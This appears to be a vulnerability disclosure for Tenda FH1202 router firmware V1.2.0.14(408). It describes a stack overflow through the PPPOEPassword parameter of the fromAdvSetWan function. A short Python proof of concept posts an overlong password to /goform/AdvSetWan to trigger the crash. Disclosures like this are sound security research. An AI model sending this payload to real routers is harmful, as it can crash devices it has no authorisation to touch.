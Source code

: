 # Tenda FH1202 fromAdvSetWan
### Overview
vendor: Tenda
product: FH1202
version: V1.2.0.14(408)
type: Stack Overflow
### Vulnerability Description
Tenda FH1202 V1.2.0.14(408) were discovered to contain a stack overflow via the PPPOEPassword parameter in the fromAdvSetWan function.
### Vulnerability details
The Tenda FH1202 V1.2.0.14(408) firmware has a stack overflow vulnerability located in the `fromAdvSetWan` function. This function accepts the `PPPOEPassword` parameter from a POST request. The `PPPOEPassword` parameter serves as the first parameter of the decodePwd function, and the second parameter of the decodePwd function is the character array on the stack. String copy of decodePwd function leads to a buffer overflow. The user-supplied `PPPOEPassword` can exceed the capacity of the `s` array, thus triggering this security vulnerability.

![](images/1.png)
![](images/2.png)

### POC
```python
import requests

ip = "192.168.0.1"
url = "http://" + ip + "/goform/AdvSetWan"

data = {
    "wanmode": "2",
    "PPPOEPassword": "a" * 1000
}

response = requests.post(url, data=data)
print(response.text)
```
![](images/3.png)
